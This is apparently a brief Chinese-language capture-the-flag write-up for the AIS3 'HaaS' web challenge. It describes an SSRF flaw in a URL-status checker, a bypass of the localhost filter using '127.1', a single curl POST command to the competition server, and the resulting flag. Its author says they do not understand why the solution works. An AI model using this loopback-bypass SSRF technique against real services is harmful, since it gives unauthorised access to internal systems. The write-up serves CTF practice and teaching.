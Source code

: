 # WEB - HaaS
## 題目解析
給一個輸入欄位可以放網址，確認網站狀態，很明顯就是 SSRF

## 嘗試
直接丟 127.0.0.1 或 localhost 會說不行，但是 127.1 是可以的

## 解法
其實我也不懂這題解出來是什麼原理，我猜是只要讓服務壞掉就可以拿到 flag 了(?

* `curl -v -X POST http://quiz.ais3.org:7122/haas -d "url=http://127.1&status=300"`
* flag: `AIS3{V3rY_v3rY_V3ry_345Y_55rF}`

